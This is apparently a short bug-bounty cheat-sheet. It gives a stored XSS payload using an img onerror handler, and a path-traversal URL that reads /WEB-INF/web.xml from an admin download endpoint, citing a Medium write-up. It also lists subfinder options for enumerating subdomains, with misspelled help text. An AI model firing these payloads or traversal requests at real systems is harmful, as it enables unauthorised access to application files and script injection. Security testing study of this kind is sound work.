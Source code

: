 # Payload Stored XSS
###> <img src=x onerror​=alert(origin)>
# Payload LFI
Since we are working in a Java environment, I attempted to read /WEB-INF/web.xml because this file often contains a lot of useful information. By navigating to http://admin.target:8443/admin/download?fileName=/WEB-INF/web.xml, I was able to access some juicy information.! https://medium.com/@HX007/a-journey-of-limited-path-traversal-to-rce-with-40-000-bounty-fc63c89576ea




# subdomain finder

###> subfinder -d wimerasys.com -v  
      -d = particular one domain enumurate <br>
      -dl = Maltipull domain enumurate from a file <br>
      -o, -output string = file to write output to <br>
      -silent = show only subdomains name in output <br>
      -nW, -active = display active subdomains only <br>
      -oI, -ip = include IP address and domain name in output (-active only) <br>
      -max-time int = minutes to wait for enumeration results (default 10) <br>
      -ei, -exclude-ip = exclude IPs from the list of domains <br>
